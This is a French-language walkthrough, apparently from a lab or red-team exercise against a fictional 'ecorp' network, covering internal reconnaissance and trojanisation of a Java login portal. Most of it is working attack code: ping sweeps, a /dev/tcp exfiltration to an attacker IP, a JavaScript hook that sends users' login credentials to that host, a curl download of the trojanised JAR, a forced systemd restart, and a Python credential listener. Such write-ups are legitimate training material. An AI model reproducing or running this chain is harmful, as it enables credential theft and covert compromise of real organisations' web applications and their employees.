


# Phase 2 : Reconnaissance interne et trojanisation

**Correspondance MITRE ATT&CK :**
-   **Discovery :** System Network Configuration Discovery (T1016), Network Service Discovery (T1046)
-   **Credential Access :** Server Software Component (T1505)
-   **Exfiltration :** Exfiltration Over Alternative Protocol (T1048)

---

## 1. Découverte du réseau (Living off the Land)

Afin d'éviter de déclencher des alertes en téléchargeant des outils de scan bruyants comme `nmap`, la phase de reconnaissance s'appuie exclusivement sur les binaires natifs du système Linux compromis ("Living off the Land").

**Configuration locale de la cible :**

```bash
ip a      # Interface ens33 : 10.0.10.10/24
ip route  # Passerelle par défaut : 10.0.10.1
ip neigh  # Cache ARP : 10.0.10.5
```
L'analyse initiale indique le sous-réseau dans lequel le serveur se situe (`10.0.10.0/24`), ainsi que la passerelle par défaut qu'il emprunte (`10.0.10.1`).

**Balayage ICMP asynchrone (Ping Sweeps) :**

Pour cartographier l'infrastructure au-delà de la DMZ, des requêtes ping rapides et asynchrones sont envoyées en deux étapes :

*1. Recherche d'autres interfaces de routage (Découverte des sous-réseaux) :*
```bash
(for i in {0..255}; do ping -c 1 -W 1 10.0.$i.1 | grep "from" & done; wait) 2>/dev/null
```
*Résultat : Découverte des passerelles `10.0.20.1` et `10.0.30.1`, confirmant l'existence de deux autres segments réseau accessibles.*

*2. Balayage horizontal des sous-réseaux découverts :*
```bash
(for i in {0..255}; do ping -c 1 -W 1 10.0.10.$i | grep "from" & done; wait) 2>/dev/null
(for i in {0..255}; do ping -c 1 -W 1 10.0.20.$i | grep "from" & done; wait) 2>/dev/null
(for i in {0..255}; do ping -c 1 -W 1 10.0.30.$i | grep "from" & done; wait) 2>/dev/null
```

**Analyse de l'empreinte OS (TTL Fingerprinting) :**

L'analyse du *Time To Live* (TTL) des hôtes actifs découverts permet d'inférer la topologie :
-   `10.0.10.5` (TTL=64) : Système Linux.
-   `10.0.20.5`, `10.0.20.100`, `10.0.20.102` (TTL=127) : Systèmes Windows (TTL par défaut de 128 - 1 saut de routage). Le sous-réseau `.20` héberge manifestement l'Active Directory et les postes clients.
-   `10.0.30.5` (TTL=63) : Système Linux (TTL 64 - 1 saut).

---

## 2. Exfiltration et rétro-ingénierie applicative

L'analyse des processus locaux (`ps aux`) révèle que le portail web est une application Java exécutée depuis l'archive `/opt/ecorp-portal/ecorp-portal.jar`. 

Une vérification immédiate des permissions sur ce fichier confirme qu'il appartient bien à l'utilisateur courant (`ecorp-web`), mais que ce dernier ne dispose pour l'instant que des droits de lecture et d'exécution :

```bash
ls -l /opt/ecorp-portal/ecorp-portal.jar
# -r-xr--r-- 1 ecorp-web ecorp-web 18825032 Aug 21 22:23 ecorp-portal.jar
```
L'attaquant étant le propriétaire du fichier, il aura la possibilité de s'octroyer les droits d'écriture ultérieurement pour le remplacer. Dans l'immédiat, le transfert du binaire légitime vers la machine attaquante est réalisé sans outil externe, en utilisant la redirection TCP native de Bash :

*Sur la machine attaquante (Mise en écoute) :*
```bash
nc -lvnp 9001 > ecorp-portal.jar
```
*Sur le serveur compromis (Exfiltration) :*
```bash
cat /opt/ecorp-portal/ecorp-portal.jar > /dev/tcp/192.168.1.150/9001
```

**Analyse du code source :**

Une fois rapatrié, le fichier `.jar` est décompilé via `JD-GUI`. L'analyse du fichier `MainController.class` révèle un défaut de conception majeur :


*Le code expose en dur l'adresse IP du contrôleur de domaine (`ldap://10.0.20.5:389`) et le nom du domaine (`@ecorp.local`). Plus grave, il montre que l'authentification s'effectue via un simple "Bind LDAP" : les mots de passe des employés transitent en clair par l'application.*

---

## 3. Trojanisation et capture d'identifiants (harvesting)

Puisque l'application intercepte les mots de passe légitimes, l'archive Java est patchée pour exfiltrer silencieusement ces identifiants lors de chaque connexion.

**Modification du code source (`index.html`) :**

Après décompression de l'archive (`unzip`), un hook d'exfiltration en JavaScript est injecté dans la page de connexion. Il est placé stratégiquement dans la fonction de validation, juste après la récupération des variables et avant l'envoi de la requête légitime :

```javascript
function processLogin() {
    const user = document.getElementById("username").value;
    const pass = document.getElementById("password").value;
    const btn = document.querySelector(".btn-login");
    const errorMsg = document.getElementById("error-msg");
    
    if(!user || !pass) return;

    // --- INJECTION EXFILTRATION POST ---
    try {
        fetch("http://192.168.1.150:9001/", {
            method: "POST",
            mode: "no-cors",
            headers: { "Content-Type": "text/plain" },
            body: JSON.stringify({
                username: user,
                password: pass
            })
        }).catch(() => {});
    } catch (err) {}
    // -----------------------------------

    btn.innerHTML = '<i class="fa-solid fa-circle-notch fa-spin"></i> Vérification AD...';
    errorMsg.style.display = "none";

    fetch('/api/login', {
            method: 'POST',
    //...
```
L'application est ensuite recompilée (`zip -r0 malicious-app.jar .`).

**Déploiement et détournement de Systemd :**

Fort des permissions identifiées lors de la phase d'énumération, l'attaquant s'octroie les droits d'écriture sur le fichier original et l'écrase par la version trojanisée téléchargée depuis son propre serveur :

```bash
chmod u+w /opt/ecorp-portal/ecorp-portal.jar
curl -o /opt/ecorp-portal/ecorp-portal.jar http://192.168.1.150:8000/malicious-app.jar
```

L'utilisateur compromis n'ayant pas les droits `sudo` pour relancer le service (`systemctl restart`), une phase d'énumération locale est menée pour identifier le gestionnaire de processus et forcer son redémarrage.

```bash
# 1. Identification du PID du processus Java
ps aux | grep "\.jar" | grep -v grep

# 2. Identification du service lié à ce processus
cat /proc/<PID>/cgroup
```
*L'affichage de l'arborescence des cgroups révèle que le processus est géré par le service `ecorp-portal.service`.*

```bash
# 3. Analyse de la configuration du service
cat /etc/systemd/system/ecorp-portal.service
```
*La lecture du fichier révèle la directive critique `Restart=on-failure`. Sachant que Systemd relancera automatiquement le service en cas de crash, l'attaquant provoque l'arrêt brutal du processus.*

```bash
# 4. Crash forcé pour déclencher le redémarrage
kill -9 <PID>
```
*Systemd relance immédiatement le service, exécutant désormais la charge utile malveillante.*

**Résultat de l'attaque :**

Un script Python C2 personnalisé est exécuté sur la machine attaquante pour écouter silencieusement sur le port 9001 et formater les requêtes POST entrantes :

```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class CredHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers.get('Content-Length', 0))
        raw_bytes = self.rfile.read(content_length)
        data = raw_bytes.decode('utf-8', errors='ignore')
        
        print(f'\033[92m[+] CAPTURED CREDENTIALS : {data}\033[0m')
        
        self.send_response(200)
        self.end_headers()

    def log_message(self, format, *args):
        pass

print("[*] Listening for credentials on port 9001...\n")
HTTPServer(('0.0.0.0', 9001), CredHandler).serve_forever()
```

Lorsqu'un employé se connecte au portail web légitime, ses identifiants sont exfiltrés en clair avant que la connexion LDAP normale ne reprenne, rendant l'attaque totalement transparente pour l'utilisateur.


*On simule ici une connexion légitime de l'employé Elliot Alderson sur le portail web.<br>L'interception réussit : les identifiants valides de l'utilisateur Active Directory `e.alderson` ont été capturés, déverrouillant la porte vers l'environnement interne.*